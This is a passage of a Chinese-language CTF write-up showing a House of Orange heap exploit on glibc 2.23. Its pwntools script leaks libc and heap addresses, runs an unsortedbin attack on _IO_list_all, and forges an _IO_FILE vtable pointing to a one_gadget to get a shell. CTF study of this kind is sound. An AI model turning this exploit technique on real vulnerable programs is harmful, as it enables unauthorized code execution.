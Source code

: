 ```python

edit(0x1111,payload)
add(0x1000)				# house of orange!

add(0x400)				# split a largebin to leak both libc and chunk base
show()
rv('Name of house : ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c510a

edit(17,'a'*16)
show()
rv('a'*16)
chunk_base=u64(p.recv(6)+2*'\x00')-0x20a

log.info('libc  base is:'+hex(libc_base))
log.info('chunk base is:'+hex(chunk_base))

```



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>现在我们已经成功泄漏出了两个地址了，只需要用unsortedbin attack攻击一下\_IO_FILE就完事了，我的how2pwn里有个**edit_io_list_all**有很清楚的写出了怎么完成这个过程：修改unsortedbin的bk为\_IO_list_all-0x10，为什么？看源码这一段：</font></br>

```c
3728	          /* remove from unsorted list */
3729	          unsorted_chunks (av)->bk = bck;
3730	          bck->fd = unsorted_chunks (av);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我们可以往任意地址写一个unsortedbin本身的地址，既然可以任意控制unsortedbin，我们可以往\_IO_list_all里写一个地址修改到自己控制的地方去，因为篡改后的_IO_FILE_plus结构有问题，所以会从**chain找到下一个FILE结构体**，在这里就是**main_arena中的0x60大小的smallbin的bk处**了（无法理解的话看main_arena的作用，还有**how2pwn中的tips**看main_arena结构），然后只要伪造这一个smallbin就相当于可以随意伪造\_IO_FILE_plus结构体了，同时包括vtable（因为libc是**glibc2.23版本的所以可以伪造vtable**，更高的就不行了），利用其结构伪造vtable（看不懂？先看\_IO_FILE的[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/fake-vtable-exploit/)），又因为malloc corruption（\_\_libc_message->abort->\_IO_flush_all_lockp->vtable）最终会调用vtable中的\_\_overflow，因此最终劫持流程到getshell。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如果还是看不懂的话**how2pwn里的orange_shell**实现了这个过程（只是必须用**gdb在调试状态**下跑，不然地址对不上）。剩下的脚本我就直接放了：</font></br>

```python
#伪造_chain指向的下一个FILE结构体
#并伪造vtable中的__overflow为one_gadget
payload='a'*0x400
payload+=p64(0)+p64(0x21)
payload+=p64(0xddaa00000002)
payload+=p64(0)*2
payload+=p64(0x61)
payload+=p64(0)+p64(libc_base+IO_list_all-0x10)
payload+=p64(0)+p64(1)
payload+=p64(0)*21
payload+=p64(chunk_base+0x7c0)
payload+=p64(0)*3+p64(one_gadget+libc_base)

edit(0x1111,payload)
#gdb.attach(p,gdbscript='b __libc_message\nc')

#pwned！
sla(menu,'1')

p.interactive()



'''
```